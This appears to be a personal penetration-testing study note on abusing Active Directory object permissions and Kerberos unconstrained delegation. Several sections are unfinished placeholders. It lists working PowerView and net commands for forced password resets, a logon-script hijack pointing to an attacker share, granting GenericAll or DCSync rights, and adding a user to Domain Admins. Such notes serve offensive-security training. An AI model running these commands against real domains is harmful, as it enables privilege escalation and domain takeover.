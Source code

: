 In this module we will exploit AD Object Permissions, Keberos Delegation and AD Trust - due to the complexity of the large org deployments there are always misconfigurations.

## AD Object Permissions
Users, Computers and groups are objects in AD with associated set of permissions. If permissions set incorrectly we can exploit them. 
#AD #permissions 

The object security is controlled by the **DACL** -Discretionary ACL which has the **ACE** - Access Control Enties. If multiple ACE, the order matters e.g. if deny first the access is denied. ACE is stored as **SDDL** - Security Descriptior Definition Lang, which has specific format.

```text
ace_type;ace_flags;rights;object_guid;inherit_object_guid:account_sid
```

This ACE would apply to account_sid on the object_guid with the specific rights: A;;RPWPCCDCLCSWRCWDWOGA;;;S-1-1-0.

**All authenticated users in AD can read AD Objects and their DACLs.** So once we compromise any AD user, we can perform the AD enum.

#powerview #dacl #enum 
We can use Powerview scripts for enum, like Get-ObjectAcl.
[[AD Enum - Powerview & Bloodhound#^f54063]]

It is a lengthy list of ACEs applied to the object, we need to look at **ActiveDirectoryRights, SecurityIdentifier, AceType**.
To read SecurityIdentifier (in this case we have access to the enumerated Identitity), we can call the following:
#powerview 
[[AD Enum - Powerview & Bloodhound#^ea8e3b]]

For lengthy DACL which affects our domain user, we can use the following oneliner to resolve the SID :
#powerview #enum #dacl
[[Oneliners - ps1#^d8fba8]]

#exploit-ad 
#### User
For **User** objects we can exploit the following ACE:
GenericAll, ExtendedRights (User-Force-Change-Password) GenericWrite, or WriteDACL

For **GenericAll and ExtendedRights** we can just change password:
#cmd
```cmd
net user <user> <pass> /domain
```

For **GenericWrite** we can add the logon script to the user:
#ps1 #powerview
```powershell
Set-DomainObject -Identity <user_name> -Set  @{"scriptPath" = "\\10.0.0.5\totallyLegitScript.ps1"}
```


For **WriteDACL** we grant ourselves ourselves **GenericAll** or **DCSync**:
#ps1 #powerview 
```powershell
Add-DomainObjectAcl -TargetIdentity <user_name> -PrincipalIdentity <our_user> -Rights All
```
All or DCSync

To exploit **DCSync**:
To-do: Link


#### Group
For **Group** we need: GenericAll, WriteProperty, GenericWrite, Self (Self-Membership), WriteOwner

For **GenericAll, WriteProperty, GenericWrite, Self (Self-Membership)*** we can just add ourselves to the group:
#cmd
```cmd
net group <group_name> <our_user> /add /domain
```
or with powerview:
#powerview #ps1
```powershell
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

For **WriteOwner** we can add ourselves as owner:
#powerview #ps1 
```powershell
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
```

There is also the case where we have the WriteOwner + WriteDACL, link
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces#writedacl-+-writeowner

#### Computer
For **Computers** when we have the GenericAll, GenericWrite and Write we can abuse the Kerb Resouce-based constrained delegation. 

To-do: Link

## GPO and OU Abuse

To-do. 


## Kerberos Delegation
Kerberos Double Hop issue - when there is a web app for all employee that uses Kerberos and pulls the data from the MSSQL in the backend. The employees access it, but only has sent the TGS to the Web Server, which cannot be reused. Kerberos Delegation solves this design issue. There are several implementionof this: Unconstrained delegation, contrained delegation and resource based constrained delegation (the last requires at least 2012 WIN Server). 
Kerberos Auth explained: [[Windows Post-exp#^6ade8c]]

#### Unconstrained Delegation

The difference in the Kerberos flow is that before the TGS is requested, the **Forwardable TGT** is requested. Then the client sends TGS with **Fordardable TGT**, which the server can reuse to communicate to backend-server as the user (by requesting more TGS). This introduces number of issues - the server can authenticate as the user to **any services** - because is has the forwardable TGT.

If we manage to compromise the service, we can compromise the user's TGTs - it can be high privileges domain user. We either need to compromise the app running (then we can use the Tickets - we can easly escalate to admin with impersonation) with the service account or do the lateral movement (compromise the server etc.)

To Enumerate unconstrained delegation we can use powerview:
#powerview #ps1 #enum

```powershell
Get-DomainComputer -Unconstrained
```
[[AD Enum - Powerview & Bloodhound#^660271]]
Once we have the Admin on the machine with Unconstrained Delegation, we can get the TGT and Pass-The-Ticket:
[[Windows Post-exp#^1a750f]]
then move laterally:
[[Windows LM]]

In some cases the privileged user can be added to the **Protected Group** which would not allow to delegate their tickets - but that would broke the app for them. 

If there is unconst delegation configured and the PrintSpooler service on DC is reachable over RDP from the compromised unconst delegation machine we may be able to get the DC machine account. 

#### Constrained Delegation


#### Rb Constrained Delegation




## AD Forrest










